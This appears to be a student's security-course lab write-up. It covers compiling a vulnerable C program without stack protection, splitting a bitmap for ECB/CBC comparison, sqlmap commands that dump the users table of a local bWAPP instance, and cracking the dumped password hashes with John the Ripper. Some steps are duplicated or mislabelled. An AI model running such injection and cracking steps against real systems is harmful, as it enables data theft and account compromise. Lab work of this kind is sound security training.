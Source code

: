 # Lab #1,22110013, Nguyen Le Tung Chi, 1INSE330380E_03FIE
# Task 1: Software buffer overflow attack
This lab explores various encryption algorithm with openssl
**Question 1**: Compile both C programs and shellcode to executable code
**Answer 1**:
### 1. Create a file vulnerable C program and Shellcode :
*Vulnerable*<br>

<img width="500" alt="Screenshot" src="https://github.com/user-attachments/assets/088de4be-0b99-45dd-88b9-445ecf3d4721"><br>
*Shellcode*<br>
<img width="500" alt="Screenshot" src="https://github.com/user-attachments/assets/836fd022-f44f-4aec-82fc-e02a6c911fbc"><br>

### 2. Use a docker container to do. It will be mapped to my Seclabs directoy:
 ![image](https://github.com/user-attachments/assets/ffd49dd3-deb0-4410-a96d-27fdde477641)

compile the C program by `gcc`
```sh
gcc -g vul.c -o vul.out -fno-stack-protector -mpreferred-stack-boundary=2
``` 
compile the C program by `gcc`
```sh
gcc -g vul.c -o vul.out -fno-stack-protector -mpreferred-stack-boundary=2
``` 

# Task 2. Encryption Mode – ECB vs. CBC
This lab compares the behaviour of ECB and CBC encryption modes
**Question 1**: Exploration of various ECB & CBC  with openssl
**Answer 1**:
## 1. Download the bitmap file `origin.bmp`.


## 2. Split the file into header and body:

```sh
dd if=origin.bmp of=header.bin bs=1 count=54
dd if=origin.bmp of=body.bin bs=1 skip=54
```

<img width="500" alt="Screenshot" src="https://github.com/AlexanderSlokov/Security-Labs-Submission/blob/main/asset/encryptingLargeMessage7.png?raw=true"><br>



# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security).
![image](https://github.com/user-attachments/assets/53a1510d-4940-4e0a-bab4-2d27d811b85c)
![image](https://github.com/user-attachments/assets/e131a065-520a-4a54-96b1-b67d70cb2bad)

- Install sqlmap.
![image](https://github.com/user-attachments/assets/a0e285f8-c6b6-4b7e-aa44-6cdbfd540a0a)

- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**: A vulnerable URL in bWAPP
`http://localhost:8025/portal.php`
Choose SQL Injection (GET/Select) to get information
![image](https://github.com/user-attachments/assets/73fc436a-fcc6-4ec4-a120-6a73ddbbe6fa)
**Open Command Line and use the command**
```sh
py sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=ssu5d6m0ng7ugh7cvav36l03g1; security_level=0;" --dbs

```
**The cookie address will get in bWAP:**

![image](https://github.com/user-attachments/assets/2118bae7-7b56-4f12-86c4-e68a92b95ad9)
**So we have the result:**

![image](https://github.com/user-attachments/assets/89e96f03-ba13-49c3-8ba4-dd1cef4f7fd7)
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
**Use this command to get tables:**

```sh
py sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=ssu5d6m0ng7ugh7cvav36l03g1; security_level=0;" -D bWAPP --tables

```

**We have 5 bytes**
![image](https://github.com/user-attachments/assets/0e79bb9e-52b2-4343-aacd-86a20cd0775d)

**Use this command to get users information: **

```sh
py sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=ssu5d6m0ng7ugh7cvav36l03g1; security_level=0;" -D bWAPP -T users --dump

```

we have 
*Database: bWAPP*
Table: users
[2 entries]

![image](https://github.com/user-attachments/assets/844bbbc5-d5e1-4ab7-bf4b-85fad528bab4)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:

*1. Access the link `https://www.openwall.com/john/`*
*2. Download this **Openwall***
3. 
![image](https://github.com/user-attachments/assets/558b15a3-72cc-4ec3-9051-d48f99a1009a)

*4. Create a file `hashes.txt` in the folder name `run`*
   
![image](https://github.com/user-attachments/assets/0be0e872-31bf-46ad-bfb8-3f4a3afae9c0)

Then, we save with this content: 

`A.I.M.:6885858486f31043e5839c735d99457f045affd0
bee:6885858486f31043e5839c735d99457f045affd0`

*5. Open **Command Line** in folder `run`:*
Use the command: `john --test`

![image](https://github.com/user-attachments/assets/9ad46afc-5328-4869-b5d6-11bc64b5d49d)

Following this command we use: `john hashes.txt`

![image](https://github.com/user-attachments/assets/b162bba5-d9e3-4053-b701-b9d8ce75e85d)

**Then we get the username and password**

   -> result
   ![image](https://github.com/user-attachments/assets/77e81f6e-38bf-465a-a88e-ec2dc7b9e191)

